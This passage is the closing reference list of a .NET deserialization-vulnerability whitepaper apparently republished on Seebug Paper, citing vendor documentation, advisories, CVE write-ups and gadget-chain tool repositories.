8.  https://learn.microsoft.com/en-us/dotnet/core/compatibility/core-libraries/7.0/serializationformat-binary
9.  This gadget was unknown when I was writing this part of the whitepaper. Some information about it appeared later and they are described in the MessagePack chapter
10.  https://www.nuget.org/packages/messagepack/
11.  https://sec.vnpt.vn/2021/10/50-shades-of-solarwinds-orion-patch-manager-deserialization-final-part-cve-2021-35218/
12.  https://www.zerodayinitiative.com/advisories/ZDI-23-1006/
13.  https://testbnull.medium.com/ph%C3%A2n-t%C3%ADch-l%E1%BB%97-h%E1%BB%95ng-solarwinds-oriondeserialization-to-rce-cve-2021-31474-b31a5f168bf0
14.  https://www.newtonsoft.com/json/help/html/SerializingJSON.htm
15.  https://www.newtonsoft.com/json/help/html/SerializationCallbacks.htm
16.  https://www.newtonsoft.com/json/help/html/SerializationSettings.htm#ConstructorHandling
17.  https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-andother-great-tricks
18.  https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-setcurrentdirectory
19.  https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-andother-great-tricks
20.  https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-andother-great-tricks
21.  https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-andother-great-tricks
22.  https://www.deltaww.com/en-US/products/Management-System/data-center-infrasuite-device-master
23.  https://github.com/pwntester/ysoserial.net/pull/146 24 https://github.com/MessagePack-CSharp/MessagePack-CSharp
24.  https://github.com/MessagePack-CSharp/MessagePack-CSharp
25.  https://research.nccgroup.com/wp-content/uploads/2020/07/whitepaper-new.pdf
26.  https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java
27.  https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf
28.  https://learn.microsoft.com/en-us/dotnet/desktop/xaml-services/xfactorymethod-directive
29.  https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-andother-great-tricks
30.  https://github.com/pwntester/ysoserial.net
31.  https://learn.microsoft.com/en-us/dotnet/api/system.reflection.assembly.loadfile?view=net-7.0

- - -

 本文由 Seebug Paper 发布，如需转载请注明来源。本文地址：[https://paper.seebug.org/3106/](https://paper.seebug.org/3106/)

[↓↓↓](https://paper.seebug.org/3101/)  
  
← 全链基带漏洞利用分析（第 3 部分）  
  
[↑↑↑](https://paper.seebug.org/3101/)

[Glibc 权限提升漏洞“Looney Tunable... →](https://paper.seebug.org/3110/)

[](https://paper.seebug.org/users/author/?nickname=%E7%9F%A5%E9%81%93%E5%88%9B%E5%AE%87404%E5%AE%9E%E9%AA%8C%E5%AE%A4%E7%BF%BB%E8%AF%91%E7%BB%84)r

#### [知道创宇 404 实验室翻译组](https://paper.seebug.org/users/author/?nickname=%E7%9F%A5%E9%81%93%E5%88%9B%E5%AE%87404%E5%AE%9E%E9%AA%8C%E5%AE%A4%E7%BF%BB%E8%AF%91%E7%BB%84)

阅读更多有关[该作者](https://paper.seebug.org/users/author/?nickname=%E7%9F%A5%E9%81%93%E5%88%9B%E5%AE%87404%E5%AE%9E%E9%AA%8C%E5%AE%A4%E7%BF%BB%E8%AF%91%E7%BB%84)的文章

  

昵称 

邮箱 


提交评论

\* 注意：请正确填写邮箱，消息将通过邮箱通知！

#### 暂无评论
